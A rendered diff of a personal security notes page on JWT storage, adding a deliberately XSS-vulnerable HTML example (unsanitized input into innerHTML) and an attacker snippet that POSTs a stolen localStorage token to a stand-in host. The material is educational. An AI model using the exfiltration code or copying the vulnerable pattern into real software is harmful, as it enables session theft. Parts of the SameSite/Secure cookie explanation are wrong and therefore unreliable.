

Before and after one commit to makeevolution/notes, a Markdown page: security/authentication-authorization.md, the part around one of its changes. Shown at 90% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Enhance JWT storage and security guidelines
Expanded on JWT storage options and security considerations, including vulnerabilities of local storage and non-HttpOnly cookies, as well as CSRF protection mechanisms.

````diff
--- a/security/authentication-authorization.md
+++ b/security/authentication-authorization.md
@@ -19,6 +19,41 @@
     - Since an algorithm is used to check the token, the approach is serverless (no db reads) and thus scales well
     - if token expires, client can create a middleware to catch 401, send refresh token, get a new access token, and retry the request
     - JWT is a way of encoding a token. Other alternatives include having opaque tokens, CWT (cbor web tokens, RFC-8392), etc
+##### Where to store JWT
+    - Either in cookies or headers (but for cookies only as a HttpOnly cookie)
+    - Storing in localstorage as Auth Bearer (like in section above) and making the frontend load it and send as header to backend has many differences over sending it over httponly cookies:
+      - Storing in localstorage or a non-HttpOnly cookie makes it vulnerable by XSS attacks, since `localStorage.getItem('access_token') or document.cookie can be used to get the token like this (only shown for localstorage):
+      ```
+        <!-- vulnerable.html (unsafe pattern) -->
+        <html>
+              <body>
+            <form method="GET" action="/search">
+              <input name="q" placeholder="Search...">
+              <button>Search</button>
+            </form>
+
+            <p>Results for: <span id="result"></span></p>
+
+            <script>
+              // BAD: inserting unsanitized user input as HTML
+              const params = new URLSearchParams(window.location.search);
+              const query = params.get("q") || "";
+              // This will interpret any HTML in `query`
+              document.getElementById("result").innerHTML = query;
+            </script>
+          </body>
+        </html>
+      ```
+      and the query is like this:
+      ```
+// attacker JS running in victim's page
+const token = localStorage.getItem('access_token');        // attacker reads token
+// exfiltrate it
+fetch('https://attacker.example/steal', { method:'POST', body: token });
+      ```
+      - Store in httponly cookies makes it not vulnerable against XSS, but it is then vulnerable to CSRF attacks, unless you set samesite=lax or none with secure=True and CSRF token. Explanation:
+        - Samesite property of a cookie explanation: It determines whether a cookie should be sent to other sites other than any host that issued the cookie (i.e. cross site), depending on the type of request (safe like GET or unsafe like POST). Secure means the cookie will only be sent if it was sent by a website with the same host as the backend/receiver, no matter if it is safe or unsafe request. Lax means if you have a cookie issued by B.com, you are in A.com and clicks a link to B.com (i.e. top level redirection), then the cookie is included. But if you are making a POST request to B.com through a form in A.com, then it won't be included. If you set None, but without secure=True, then modern browsers will not send the cookie at all whether it is a redirection or a form. If you use secure=True, then it will be included by the browser, for both top level redirect or even form (i.e. POST/unsafe requests), but only if it is sent through HTTPS. Thus, samesite=None even with secure=True still allows unsafe requests from cross site, making it possible for an attacker.com to change the backend.
+        - So, if your cookie is Samesite=None, it is not possible to securely send an unsafe request without any extra actions. To make it possible to securely send a unsafe request, use CSRF Token. This token would be generated by your backend when logging in, and can be set in localStorage by frontend. When making form requests, the frontend will also need to read it from localSTorage and set it as a X-CSRF-TOKEN header for the form request to be successful. CSRF Token is then not relevant for lax or secure cookies (since it is by definition cannot make POST request to cross sites!).
 
 ### OAuth:
     - OAuth is a specification for an authorization protocol/flow (i.e. specifying what a principal, that is, a user or service, can do to a resource in a particular server)
````
Also changed, not shown: other parts of security/authentication-authorization.md (+1 -1 lines).
